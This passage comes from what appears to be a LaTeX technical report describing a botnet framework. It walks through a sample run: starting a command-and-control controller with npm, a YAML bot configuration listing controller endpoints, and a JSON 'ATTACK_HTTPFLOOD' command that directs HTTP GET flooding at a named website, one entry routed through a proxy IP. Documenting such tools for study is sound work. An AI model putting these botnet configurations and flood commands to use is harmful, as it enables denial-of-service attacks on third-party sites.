 \section{Sample execution}
\label{sec:sample-execution}

We show here a sample execution to give the reader an idea about how everything works.
We suggest the reader to refer to \cite{video-tutorial} to better understand how configuration and commands could be conveniently generated.

First, the controller is started and attached to the default port 3000 with standard verbosity:

\begin{verbatim}
  $[controller-dir] npm start
\end{verbatim}

Then, the following configuration is given for the bot, writing it in \texttt{/path/to/configuration/config.yaml}:

\begin{verbatim}
  cnfInfo: true
  tgtInfo: true
  sysInfo: true
  netInfo: true
  polling: "3-5:SECONDS"
  reconnections: 3
  reconnectionWait: "2-5:SECONDS"
  proxy: "none"
  sleep: "* * * ? * SAT,SUN"
  authentication:
    User-Agent: MyAwesomeBot
  controllers:
    - init: http://localhost:4000/init
      command: http://localhost:4000/command
      log: http://localhost:4000/report
    - init: http://localhost:3000/init
      command: http://localhost:3000/command
      log: http://localhost:3000/report
    - init: data/samples/controllers/1/init.json
      command: data/samples/controllers/1/command.json
      log: data/samples/controllers/1/report.json
\end{verbatim}

Notice that the first specified controller is an invalid one, the second one is valid because the controller has been started at port 3000, and the last one is provided as a fallback controller for local testing.
The controller gives the bot the following \texttt{ATTACK\_HTTPFLOOD} command to perform a HTTP GET Flooding attack:

\begin{verbatim}
  {
    "command": "ATTACK_HTTPFLOOD",
    "attacks": [
      {
        "method": "GET",
        "target": "http://www.gmarciani.com"
      },
      {
        "method": "GET",
        "target": "http://www.gmarciani.com",
        "proxy": "31.220.56.101:80",
        "header": {
          "User-Agent": "MyAwesomeBot"
        },
        "executions": 3,
        "period": "10-15:SECONDS"
      }
    ]
  }
\end{verbatim}


